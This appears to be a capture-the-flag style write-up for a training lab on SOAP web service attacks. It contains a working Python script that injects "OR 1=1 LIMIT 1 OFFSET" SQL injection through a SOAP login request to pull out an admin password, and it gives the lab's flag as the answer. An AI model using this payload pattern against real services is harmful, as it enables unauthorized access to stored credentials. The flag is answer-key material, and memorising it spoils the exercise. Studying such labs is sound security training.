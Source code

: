 # Web Service & API Attacks - Skills Assessment

Our client tasks us with assessing a SOAP web service whose WSDL file resides at `http://<TARGET IP>:3002/wsdl?wsdl`.

Assess the target, identify an SQL Injection vulnerability through SOAP messages and answer the question below.

**Questions**

Submit the password of the user that has a username of "admin". Answer format: FLAG{string}. Please note that the service will respond successfully only after submitting the proper SQLi payload, otherwise it will hang or throw an error.

```python
#vim exploit.py
import requests, sys
import xml.etree.ElementTree as ET

for i in range(100):
    craft= f"""OR 1=1 LIMIT 1 OFFSET {i}"""
    payload = f"""
             <?xml version="1.0" encoding="utf-8"?>
                <soap:Envelope
                    xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
                    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
                    xmlns:tns="http://tempuri.org/"
                    xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
                    <soap:Body>
                       <LoginRequest xmlns="http://tempuri.org/">
                          <username> admin'{craft}-- - </username>
                          <password> password </password>
                       </LoginRequest>
                    </soap:Body>
                </soap:Envelope>
            """

    res = requests.post("http://10.129.201.198:3002/wsdl", data=payload, headers={"SOAPAction":'"Login"'})
    if "admin" in res.content.decode():
        print(res.request.body)
        print("\n"+ res.text)
        sys.exit(0)
```

now run the exploit

```bash
python3 exploit.py
#<password>FLAG{1337_SQL_INJECTION_IS_FUN_:)}</password>
```
